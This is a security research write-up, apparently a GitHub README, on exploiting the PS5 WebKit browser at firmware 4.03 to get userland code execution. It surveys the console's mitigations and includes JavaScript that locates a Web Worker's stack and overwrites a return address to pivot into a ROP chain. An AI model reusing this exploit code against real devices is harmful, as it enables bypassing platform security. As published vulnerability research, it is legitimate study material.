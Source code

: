 ﻿﻿# Exploring the Playstation 5 Security - Userland
---
## Introduction
The PlayStation 5 was released on November 12th 2020. While it's similar to the PS4 in it's architecture, the security model is vastly improved on both kernel and userland fronts. Below is some key system information on system software and some of the changes from the last generation.

- Uses FreeBSD 11.
- No development access (ie. can't run unsigned code without exploits).
- To date there are no public exploits.
- Added mitigations in kernel and userland.
- Added hypervisor that handles security and app containers.

---


## Userland Overview
Back in September Project Zero released a [report](https://github.com/googleprojectzero/0days-in-the-wild/blob/67fde24b17e0defe07208d7a7f63563168ed5e62/0day-RCAs/2021/CVE-2021-30858.md) for what they believed to be CVE-2021-30858, this turned out to be wrong as it was actually CVE-2021-30889 they were describing. A [proof of concept](https://gist.github.com/sleirsgoevy/6beca32893909095f4bba1ce29167992) was written for PS4 by sleirsgoevy, which we later modified to gain ROP execution on 9.00 for the [kernel exploit](https://github.com/ChendoChap/pOOBs4). The vulnerability won't be covered here, this writeup will focus on taking the arbitrary read/write and `leakobj()/fakeobj()` primitives the exploit provides to gain code execution on PS5.

Lower firmwares such as 2.00 don't seem to be vulnerable, likely because the relevant FontFace code isn't present in older builds of WebKit (this holds true on PS4 as well, as firmwares lower than 9.00 can't be exploited with this WebKit bug).

Firmware 4.03 however, we found the browser was vulnerable. Unfortunately the exploit strategy used on PS4 could not be used on PS5 because of clang-based CFI. On PS4, we can use the `leakobj()` and arbitrary write primitive to leak an `HTMLTextArea`'s vtable and smash one the various virtual calls for code execution. On PS5, these virtual calls are verified.

Virtual calls now have code that looks something like this, where it's address is enforced:

![image info](./cfi.png "PS5 CFI enforcement on webkit")

---


### [Mitigations](https://wiki.freebsd.org/SecurityMitigations)


|name|kernel|user|description|
|---|---|---|---|
|[SMEP: Supervisor Mode Execution Prevention](https://svnweb.freebsd.org/base?view=revision&revision=242433)|x||SMEP will prevent supervisor mode from executing user-space code.|
|[SMAP: Supervisor Mode Access Prevention](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention)|x||Complements Supervisor Mode Execution Prevention (SMEP), extends protection to reads and writes.|
|[XOM: eXecute Only Memory (R^X)](https://community.arm.com/arm-community-blogs/b/architectures-and-processors-blog/posts/what-is-execute-only-memory-xom)|x|x|Disallows reading any memory page marked as executable.|
|[Clang-CFI: Control Flow Integrity](https://clang.llvm.org/docs/ControlFlowIntegrity.html)|x|x|Protects against forward-edge control flow hijack (virtual calls, etc.)|

[Clang's Control Flow Integrity flags](https://clang.llvm.org/docs/ControlFlowIntegrity.html)

|-fsanitize=cfi-|description|
|----|---|
|cast-strict| Enables strict cast checks.|
|derived-cast| Base-to-derived cast to the wrong dynamic type.|
|unrelated-cast| Cast from void* or another unrelated type to the wrong dynamic type.|
|nvcall| Non-virtual call via an object whose vptr is of the wrong dynamic type.|
|vcal| Virtual call via an object whose vptr is of the wrong dynamic type.|
|icall| Indirect call of a function with wrong dynamic type.|
|mfcall| Indirect call via a member function pointer with wrong dynamic type.|

---

## WebKit Exploit Implementation

### Overview
An alternative was needed to achieve code execution in WebKit. Thankfully, PS5's CFI is only forward-edge and does not use shadow stack, so backward-edge attacks (such as attacking return addresses on the stack) are fair game.  Javascript provides a somewhat interesting piece of functionality called [Web Workers](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API). These Workers are at their core simple threads which execute javascript in an isolated environment. These were useful for exploitation, as they had a reliable stack we could leak, and gives a thread to pivot to our ROP chain.

### Leaking a worker stack
The libkernel library used by WebKit (and many other applications) keeps a list of threads for that process, and includes information such as the stack address and size. By iterating this list using the arbitrary read/write, we can find a worker's stack address.

```javascript
function find_worker() {
    const PTHREAD_NEXT_THREAD_OFFSET = 0x38;
    const PTHREAD_STACK_ADDR_OFFSET = 0xA8;
    const PTHREAD_STACK_SIZE_OFFSET = 0xB0;

    for (let thread = p.read8(libKernelBase.add32(OFFSET_lk__thread_list)); thread.low != 0x0 && thread.hi != 0x0; thread = p.read8(thread.add32(PTHREAD_NEXT_THREAD_OFFSET))) {
        let stack = p.read8(thread.add32(PTHREAD_STACK_ADDR_OFFSET));
        let stacksz = p.read8(thread.add32(PTHREAD_STACK_SIZE_OFFSET));
        if (stacksz.low == 0x80000) {
            return stack;
        }
    }
    alert("failed to find worker.");
}
```

### Launching a ROP chain

Once we have a worker stack, we can smash a known return address on the stack to stack pivot and get ROP running. Due to the stack being deterministic, we can setup a dummy worker with a `postMessage` handler and overwrite the return address at `stack+0x7FB88`.

```javascript
const OFFSET_WORKER_STACK_OFFSET = set_offset_for_platform(0x0007FB88, 0x0007FB28);
// ...
let return_address_ptr = worker_stack.add32(OFFSET_WORKER_STACK_OFFSET);
let original_return_address = p.read8(return_address_ptr);
let stack_pointer_ptr = return_address_ptr.add32(0x8);
// ...
async function launch_chain(chain) {
    // ...
    
    //overwrite return address
    p.write8(return_address_ptr, gadgets["pop rsp"]);
    p.write8(stack_pointer_ptr, chain.stack_entry_point);

    let p1 = await new Promise((resolve) => {
        const channel = new MessageChannel();
        channel.port1.onmessage = () => {
            channel.port1.close();
            resolve(1);
        }
        worker.postMessage(0, [channel.port2]);
    });
    
    // ...
}
```

---

## Conclusion

Gaining userland code execution on PS5 is trickier than on PS4, but it's possible. Of course, this was made easier by the fact that we have binaries\* and thus access to ROP gadgets. Otherwise, achieving code execution would have been far more difficult due to XOM. This is a userland exploit. Attacking the kernel is much more difficult due to above mitigations, and is left for a future writeup.

---

## Credits
ChendoChap && Znullptr

**Thanks**

- Anonymous\*
- Specter
- sleirsgoevy
- Everyone that donated.
